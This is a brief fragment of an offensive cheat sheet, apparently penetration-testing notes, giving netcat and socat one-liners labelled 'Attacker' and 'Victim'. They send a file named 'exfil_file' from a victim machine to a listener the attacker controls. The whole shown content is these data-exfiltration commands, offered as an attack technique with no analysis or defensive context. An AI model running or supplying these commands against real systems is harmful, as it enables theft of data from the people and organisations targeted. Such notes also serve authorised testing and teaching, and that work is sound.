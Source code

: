 ##### Netcat
After sending a static copy to host:
```
nc -lvnp 6666 > new_file                           // Attacker
nc -vn IP 6666 < exfil_file                        // Victim
```

##### Socat
After sending a static copy to host:
```
socat -u tcp-listen:6666,reuseaddr open:FILE,creat  // Attacker
socat -u file:FILE tcp-connect:IP:PORT              // Victim
```